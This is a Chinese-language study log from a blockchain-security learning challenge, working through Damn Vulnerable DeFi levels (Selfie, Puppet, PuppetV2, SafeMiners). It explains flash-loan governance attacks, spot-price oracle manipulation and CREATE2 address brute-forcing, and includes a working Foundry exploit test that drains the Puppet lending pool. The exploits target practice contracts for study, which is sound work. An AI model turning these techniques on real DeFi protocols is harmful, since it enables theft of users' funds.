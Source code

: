 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.08.30

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

### 2024.08.31
[puppetV2](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels)
与最初版本不同的地方在于使用WETH-token交易对，现在还是关注质押WETH数量是如何计算的，
```
// PuppetV2.sol
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return (_getOracleQuote(tokenAmount) * 3) / 10 ** 18;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            // 获取交易对数量
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount * (10 ** 18), reservesToken, reservesWETH);
    }
// UniswapV2Library.sol
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = (amountA * reserveB) / reserveA;
    }
```
同样的，质押物价值也是通过uniswapv2池子里交易对数量比值作为瞬时价格，突破点也是在这。与上边不同的地在于需要将eth置换成WETH。

### 2024.09.02
[SafeMiners](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/safe-miners/SafeMiners.t.sol)
做到这题发现自己fork的repo是V2的，明天再做更新的，有点大意了>v<
这类问题非常经典。具体来说，当代币转账到一个未部署的地址时，攻击者可以利用 `CREATE2` 指令，通过暴力计算不同的 salt 值来预测合约地址，直至找到目标地址。然后，攻击者可以将攻击合约部署到该地址，并执行代币转账操作。
```
Logs:
  🧨 Let's see if you can break it... 🧨
  dvt.balanceOf(DEPOSIT_ADDRESS): 2000042.000000000000000000
  dvt.balanceOf(ATTACKER): 0.000000000000000000
  dvt.balanceOf(DEPOSIT_ADDRESS): 0.000000000000000000
  dvt.balanceOf(ATTACKER): 2000042.000000000000000000
  
🎉 Congratulations, you can go to the next level! 🎉
```
<!-- Content_END -->
